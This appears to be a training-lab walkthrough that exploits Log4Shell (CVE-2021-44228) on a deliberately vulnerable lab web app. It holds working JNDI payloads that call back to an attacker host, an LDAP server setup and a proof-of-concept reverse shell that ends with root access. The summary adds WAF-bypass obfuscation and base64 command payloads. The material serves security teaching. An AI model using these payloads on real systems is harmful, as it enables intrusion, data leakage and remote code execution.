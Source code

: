 #### Lab Overview

For this lab, we will be using two methods to attack our vulnerable application:

1. We will be extracting environmental variables using the JNDI lookup (i.e., data leakage).
2. We will use the JNDI lookup to complete a RCE attack.

![Cybrary - Log4j](https://images.ctfassets.net/kvf8rpi09wgk/1QC1JwQ1y5hyicpqS3bpuf/4199ff9e436db3f2b3e9a8896db85150/Log4J_Vulnerability.png?w=450)

VIRTUAL LAB

### Cybrary - Log4j

#### By Infosec Learning

1 hour 30 minutes

This virtual lab is provided by a third-party partner and will launch in a new browser tab. It may not meet all accessibility standards. Please see our [help center This link opens a new window](https://help.cybrary.it/hc/en-us/articles/1500002668302-Cybrary-s-Commitment-to-Web-Accessibility)for details.

Launch Virtual Lab
# Scenario:
![[Security Researches/CVEs/LOG4J/Pasted image 20230913033720.png]]
#### Lab Instructions

(You can ignore and close the instruction panel that opens on the left-hand side of the lab.)

Log in to the Kali host:

- Login: kali
- Password: kali

![Log in to Kali Host](https://images.contentful.com/kvf8rpi09wgk/6IT8aUfaAgHl2vxgycXlZ/730674c27c1f853ee750482c75b188d6/Log-into-Kali.png)

Image 1.3.1 - Log in to Kali Host

(If a web browser is open when you log in to the Kali box, simply close it.)

Open a command prompt by right-clicking on the Desktop and selecting **Open Terminal Here**.

Once greeted with a black command prompt screen, use nmap to scan the network for other hosts by typing:

```
nmap -sV 192.168.1.1/24
```

![Use Nmap to Scan Network](https://images.contentful.com/kvf8rpi09wgk/5hTkjkNwLXlW23bwR7DGB0/a133671a1c42f93d8311a54b0ed81ac7/Use_Nmap_to_Scan_Network.png)

Image 1.3.2 - Use Nmap to Scan the Network

Note that two ports are open on host **192.168.1.25** and the service on port **8080** is http. This means we can reach this port by using our web browser.

Open a browser and type the following into the address bar:

`http://192.168.1.25:8080`

![Web Browser](https://images.contentful.com/kvf8rpi09wgk/1ZyMe1WtolcF18lb0jcVD5/419ed48d1753ccb4335d5f04e0535e45/Open_web_browser_to_IP_address.png)

Image 1.3.3 - Web Browser

The Log4J vulnerability relies on certain web requests being logged. Let's look for possible attack vectors. In the web browser you just opened, login as follows:

- Username: test
- Password: test

Now, click the **Login** button.

Observe that our login attempt was logged!

![The Login Attempt Was Logged](https://images.contentful.com/kvf8rpi09wgk/4ydwAsuRQkSCvsFDB6ScK7/3d67b663a82ea6ed8df0df9be07d49d6/Login_Attempt_Was_Logged.png)

Image 1.3.4 - The Login Attempt Was Logged

We now want to test if the application is vulnerable to CVE-2021-44228 by entering a JNDI lookup payload into the username field. To “catch” the payload, we will open up a terminal window and use a Netcat listener to see if we can get a connection back to our host. Type the following command and note that we are now listening on port 4444.

```
 nc -nlvp 4444
```

In the **Username** field of the web application, type the following:

```
${jndi:ldap://192.168.1.50:4444/a}
```

Click the **Login** button and look at your Netcat listener. You should see a connection from **192.168.1.25**.

![Connection Shows Up in Netcat Listener](https://images.contentful.com/kvf8rpi09wgk/47YG98oaWFJssT8ZviGIP6/1462ee00441ab186357655399557bede/Connection_Shows_Up_in_Netcat_Listener.png)

Image 1.3.5 - Connection Shows Up in Netcat Listener

We have now confirmed that 192.168.1.25 is vulnerable to CVE-2021-44228, but our exploitation has only just begun! Close the terminal window of the Netcat listener.

Our next step in the exploitation is to see if we can use lookups to enumerate system information. To do this we will set up a malicious LDAP server that was created by [Marshalsec](https://github.com/mbechler/marshalsec).

Open a new terminal window and enter the following command:

```
cd ~/Desktop/marshalsec/target
```

We will now start the LDAP server. (Note that we are using an arbitrary server and Java class in the command for this point in the exploitation, but it will become important later.)

Type the following command:

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.50:8888/#test"
```

![Start LDAP Server](https://images.contentful.com/kvf8rpi09wgk/5StRYSDdUeA1SHXgzY3E4o/eb2bd2aa93c3b89cdb49db3b3a534fb5/Start_LDAP_Server.png)

Image 1.3.6 - Start LDAP Server

Now, we will go back to the web application and modify our payload in the **Username** field to look up the operating system of the vulnerable server by adding `${java:os}`.

Note: There are many ways to use lookups to enumerate system information. See [this resource](https://logging.apache.org/log4j/2.x/manual/lookups.html).

Type the following command in the **Username** field and click **Login**.

```
${jndi:ldap://192.168.1.50:1389/${java:os}}
```

In the terminal window, we can observe that we were successful in looking up the operating system of the victim:

![Looking up the Victim's Operating System](https://images.contentful.com/kvf8rpi09wgk/3kNICfRTTwrNvkQE6Npwjn/67438d39e999b566532032dd283c87c5/Lookup_Victim_Operating_System.png)

Image 1.3.7 - Looking up the Victim's Operating System

Before we go any further, close all of your terminal windows.

We are now ready for our reverse shell to get on the victim server! Open a new terminal window and create a new Netcat listener by typing:

```
nc -nlvp 9001
```

Now, open another new terminal and type:

```
cd ~/Desktop/log4j-shell-poc
```

We will use kozmer’s proof of concept code to get our shell (we are also using [his vulnerable web application](https://github.com/kozmer/log4j-shell-poc)).

Type the following:

```
python3 poc.py --userip 192.168.1.50 --webport 8000 --lport 9001
```

![Python Command to Get Shell](https://images.contentful.com/kvf8rpi09wgk/2ifB1LP5ryJnh9eDmKpmOI/03b40186ea608f07c5e45d91cdedb240/Python_Command_to_Get_Shell.png)

Image 1.3.8 - Python Command to Get Shell

This command creates a Java file for the reverse shell, which is then compiled into a class file. It also sets up an LDAP server listening on port 1389 and a webserver on port 8000. If you look within the `log4j-shell-poc` folder, you will see our python command created two new files, `Exploit.class` and `Exploit.java`. If you open the `Exploit.java` file with a text editor, you will see the Java code that was compiled to create the `Exploit.class` file for the reverse shell.

We will now use the payload in the “Send me” line to perform the exploit to get our shell. Put this payload in the Username field and click **Login**:

```
${jndi:ldap://192.168.1.50:1389/a}
```

Now, check your Netcat listener. You should see a connection from **192.168.1.25**!

Type `id` and observe that we are the root user.

![Root User](https://images.contentful.com/kvf8rpi09wgk/13StrGlYte1EVfETqQmlJG/09ccf23ca740bcc8a76dc7f7c118d44c/Type_ID_to_Observe_Root_User.png)

Image 1.3.9 - Root User

Congratulations! You just exploited a system using the Log4J vulnerability! For the next part of the course, we advise that you **leave the lab open and running** so that you can jump right back into the action with the remediation/mitigation lab coming up next!

#### Lab Summary

After exploiting the lab, we have a basic understanding of how the system is vulnerable to the JNDI string lookup using the messaging service. In a real-world environment, we might need to modify and massage our payload to bypass potential WAF protections. This can be successfully completed by using declarations like `(${lower:l}`. In other words: `${jndi:${lower:l}dap://place/thing})`.

Another variation is to use non-standard protocols with the lookup. We can use protocols like HTTP, HTTPS, or RMI. These protocols would need their own setup and a variation of the payload, for example: `(${jndi:rmi://place/thing}` or `${jndi:http://place/thing)`.

Lastly, we can also execute commands directly depending on the system. A simple payload can be executed by declaring a command and then base64 encoding it. A good example of this is 
```
${jndi:ldap://place/thing/Basic/Command/Base64/dG91Y2ggL3RtcC9ldmlsCg==} (the encoded command is “touch /tmp/evil”).
```
